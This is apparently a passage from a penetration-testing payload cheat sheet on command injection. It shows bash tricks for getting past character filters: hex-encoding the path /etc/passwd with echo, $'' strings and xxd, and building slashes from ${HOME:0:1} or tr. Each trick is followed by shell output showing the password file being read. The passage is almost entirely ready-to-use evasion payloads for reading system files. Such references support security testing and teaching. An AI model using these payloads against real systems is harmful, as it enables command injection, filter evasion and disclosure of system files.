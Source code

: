 ### **Bypass characters filter via hex encoding** ####

```
#linux

swissky@crashlab▸ ~ ▸ $ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab▸ ~ ▸ $ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab▸ ~ ▸ $ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab▸ ~ ▸ $ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```

### **Bypass characters filter** ###

```
#Commands execution without backslash and slash - linux bash

swissky@crashlab▸ ~ ▸ $ echo ${HOME:0:1}
/

swissky@crashlab▸ ~ ▸ $ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ echo . | tr '!-0' '"-1'
/

swissky@crashlab▸ ~ ▸ $ tr '!-0' '"-1' <<< .
/

swissky@crashlab▸ ~ ▸ $ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash

```
